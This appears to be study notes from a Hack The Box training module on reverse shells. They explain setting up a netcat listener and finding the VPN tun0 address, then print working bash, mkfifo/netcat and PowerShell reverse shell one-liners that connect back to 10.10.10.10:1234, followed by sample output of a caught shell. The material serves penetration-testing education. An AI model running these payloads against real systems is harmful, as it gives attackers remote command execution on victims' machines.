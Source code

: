 #new 
A `Reverse Shell` is the most common type of shell, as it is the quickest and easiest method to obtain control over a compromised host. Once we identify a vulnerability on the remote host that allows remote code execution, we can start a `netcat` listener on our machine that listens on a specific port, say port `1234`. With this listener in place, we can execute a `reverse shell command` that connects the remote systems shell, i.e., `Bash` or `PowerShell` to our `netcat` listener, which gives us a reverse connection over the remote system.

#### Netcat Listener

The first step is to start a `netcat` listener on a port of our choosing:

Types of Shells

```shell-session
Iskandeur@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
```

The flags we are using are the following:

| Flag      | Description                                                                         |
| --------- | ----------------------------------------------------------------------------------- |
| `-l`      | Listen mode, to wait for a connection to connect to us.                             |
| `-v`      | Verbose mode, so that we know when we receive a connection.                         |
| `-n`      | Disable DNS resolution and only connect from/to IPs, to speed up the connection.    |
| `-p 1234` | Port number `netcat` is listening on, and the reverse connection should be sent to. |

Now that we have a `netcat` listener waiting for a connection, we can execute the reverse shell command that connects to us.

#### Connect Back IP

However, first, we need to find our system's IP to send a reverse connection back to us. We can find our IP with the following command:

Types of Shells

```shell-session
Iskandeur@htb[/htb]$ ip a

...SNIP...

3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500
    link/none
    inet 10.10.10.10/23 scope global tun0
...SNIP...
```

In our example, the IP we are interested in is under `tun0`, which is the same HTB network we connected to through our VPN.

Note: We are connecting to the IP in 'tun0' because we can only connect to HackTheBox boxes through the VPN connection, as they do not have internet connection, and therefore cannot connect to us over the internet using `eth0`. In a real pentest, you may be directly connected to the same network, or performing an external penetration test, so you may connect through the `eth0` adapter or similar.

#### Reverse Shell Command

The command we execute depends on what operating system the compromised host runs on, i.e., Linux or Windows, and what applications and commands we can access. The [Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.

Certain reverse shell commands are more reliable than others and can usually be attempted to get a reverse connection. The below commands are reliable commands we can use to get a reverse connection, for `bash` on Linux compromised hosts and `Powershell` on Windows compromised hosts:

Code: bash

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

Code: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

Code: powershell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

We can utilize the exploit we have over the remote host to execute one of the above commands, i.e., through a Python exploit or a Metasploit module, to get a reverse connection. Once we do, we should receive a connection in our `netcat` listener:

Types of Shells

```shell-session
Iskandeur@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, after we received a connection on our `netcat` listener, we were able to type our command and directly get its output back, right in our machine.

A `Reverse Shell` is handy when we want to get a quick, reliable connection to our compromised host. However, a `Reverse Shell` can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.